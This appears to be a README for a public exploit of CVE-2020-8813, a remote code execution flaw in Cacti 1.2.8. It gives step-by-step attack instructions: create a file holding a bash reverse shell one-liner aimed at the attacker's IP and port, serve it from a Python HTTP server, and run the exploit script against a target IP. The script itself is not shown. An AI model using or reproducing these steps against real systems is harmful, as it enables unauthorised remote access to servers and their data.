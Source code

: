 #CVE: CVE-2020-8813
#Version: 1.2.8
#Cacti 1.2.8 RCE

Create a shell executable

eg. echo -ne 'bash -i >&/dev/tcp/LocalIP/PORT 0>&1' >shell

Start a Web-Server with your reverse shell inside webroot

eg. python3 -m http.server

Fire the exploit

Usage: python3 expoit.py TargetIP LocalIP ShellName

![image](https://user-images.githubusercontent.com/56730389/115649283-6a5f7b00-a2fd-11eb-848a-52fad8727f79.png)
